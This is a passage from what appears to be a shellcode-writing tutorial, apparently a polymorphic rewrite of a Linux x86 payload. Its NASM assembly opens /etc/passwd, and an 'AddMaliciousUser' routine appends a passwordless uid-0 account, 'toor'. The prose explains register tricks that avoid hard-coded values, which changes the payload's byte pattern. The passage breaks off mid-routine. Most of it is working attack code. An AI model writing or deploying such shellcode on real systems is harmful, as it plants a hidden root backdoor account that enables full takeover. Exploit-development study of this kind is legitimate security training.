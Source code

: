     ; restore EDI to the original value
    ;   (pointing to the start of the decoded bytes)
    mov edi, esi

    ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash\0x0a' into ebx
    mov ebx, edi
    add ebx, 0xc

    ; save the same pointer into ESI too
    push ebx
    pop esi

    ; store the pointer to '/etc/passwd' into EBX
    push edi
    pop ebx

    ; store 0x5 into EAX (syscall: open())
    mov al,0x6
    dec eax

    ; store the WORD 0x1a4 into EDX
    mov dl, 0x69
    rol edx, 2

    ; store the WORD 0x442 into ECX
    mov cx,0x443
    dec ecx

    ; call syscall 0x5: open()
    int 0x80
</code></pre><p>The first instructions are used by the shellcode for retrieving the pointers to the following decoded strings:</p><ol><li>stored into the registers <code>EBX</code> and <code>EDI</code>: <code>/etc/passwd</code></li><li>stored into the register <code>ESI</code>: <code>toor::0:0:t00r:/root:/bin/bash</code> (plus <code>0xa</code> at the end)</li></ol><p>Compared to the original shellcode, I tried to restrict myself from directly moving bytes into registers, but instead using the <code>PUSH-POP</code> technique, as it requires the same number of bytes from what I've seen so far.</p><p>Moreover, I didn't want to use hard-coded values (<code>0x1a4</code> and <code>0x442</code>), so I simply used <code>DEC</code> and <code>ROL</code> to calculate the original values.</p><p>Next, there's the routing <code>AddMaliciousUser</code>, which appends the string <code>toor::0:0:t00r:/root:/bin/bash</code> to the previously-opened file, i.e. <code>/etc/passwd</code>:</p><pre><code class="language-nasm">AddMaliciousUser:

    ; exchange EBX with EAX in order to save the
    ;   file descriptor of the file opened
    xchg ebx,eax

    ; clear EAX for later use
    xor eax, eax
    push eax
    pop edx

    ; save the DWORD 0x0000001f into EDX
    push 0x20
    pop edx
    dec edx
